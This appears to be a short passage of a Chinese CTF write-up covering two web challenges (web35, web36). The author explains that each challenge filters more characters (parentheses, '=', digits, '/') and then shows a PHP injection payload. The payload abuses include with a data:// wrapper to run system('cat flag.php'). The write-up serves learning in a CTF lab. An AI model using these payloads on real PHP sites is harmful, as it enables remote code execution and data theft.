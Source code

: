 多过滤了（和=

继续用32

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20231216115219940](照片/image-20231216115219940.png)

得到flag

------

#### web36

分析

![image-20231216115548777](照片/image-20231216115548777.png)

多过滤了数字和/

继续用32的

```
/?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20231216115103207](照片/image-20231216115103207.png)
